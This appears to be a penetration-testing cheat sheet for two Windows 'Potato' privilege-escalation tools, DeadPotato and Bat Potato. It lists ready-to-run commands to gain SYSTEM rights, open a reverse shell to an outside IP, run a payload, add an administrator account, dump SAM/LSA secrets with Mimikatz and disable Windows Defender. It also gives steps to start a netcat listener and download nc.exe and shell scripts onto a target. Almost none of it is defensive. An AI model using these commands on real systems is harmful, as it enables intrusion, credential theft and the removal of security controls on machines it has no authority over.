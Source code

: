 # Potato Exploits

### 1) Dead Potato

Link: https://github.com/lypd0/DeadPotato

#### Usage

The SeImpersonatePrivilege right is enabled in your context? With DeadPotato, it is possible to achieve maximum privileges on the local system.

The tool will attempt to start an elevated process running in the context of the NT AUTHORITY\SYSTEM user by abusing the DCOM's RPCSS flaw in handling OXIDs, allowing unrestricted access over the machine for critical operations to be freely performed.

    C:\Users\lypd0> GodPotato.exe
  
    ⠀⢀⣠⣤⣤⣄⡀⠀    _           _
    ⣴⣿⣿⣿⣿⣿⣿⣦   | \ _  _  _||_) _ _|_ _ _|_ _
    ⣿⣿⣿⣿⣿⣿⣿⣿   |_/(/_(_|(_||  (_) |_(_| |_(_)
    ⣇⠈⠉⡿⢿⠉⠁⢸   Open Source @ github.com/lypd0
    ⠙⠛⢻⣷⣾⡟⠛⠋         -= Version: 1.2 =-
        ⠈⠁⠀⠀⠀

    _,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,_
  
     (*) Example Usage(s):

     -={ deadpotato.exe -MODULE [ARGUMENTS] }=-

     -> deadpotato.exe -cmd "whoami"
     -> deadpotato.exe -rev 192.168.10.30:9001
     -> deadpotato.exe -exe paylod.exe
     -> deadpotato.exe -newadmin lypd0:DeadPotatoRocks1
     -> deadpotato.exe -shell
     -> deadpotato.exe -mimi sam
     -> deadpotato.exe -defender off
     -> deadpotato.exe -sharphound

     (*) Available Modules:

     - cmd: Execute a command as NT AUTHORITY\SYSTEM.
     - rev: Attempts to establish a reverse shell connection to the provided host
     - exe: Execute a program with NT AUTHORITY\SYSTEM privileges (Does not support interactivity).
     - newadmin: Create a new administrator user on the local system.
     - shell: Manages to achieve a semi-interactive shell (NOTE: Very bad OpSec!)
     - mimi: Attempts to dump SAM/LSA/SECRETS with Mimikatz. (NOTE: This will write mimikatz to disk!)
     - defender: Either enables or disables Windows Defender's real-time protection.
     - sharphound: Attempts to collect domain data for BloodHound.

### 2) Bat Potato

Link: https://github.com/0x4xel/Bat-Potato

#### Usage

Attacker:

    python Bat-Potato.py

Server will be listening incomming requests. Keep that connection alive, open new tab and open another listening port for the reverse shell.

    rlwrap nc -lvnp 4444

You must upload the following files on the server:

- wget.exe

- Bat-Potato.bat file generated by python script

On the server, execute

    .\Bat-Potato.bat

This will upload shell.bat, nc.exe and Juicy binary from server and will attempt to Privesc making all the CLSID request automatically.
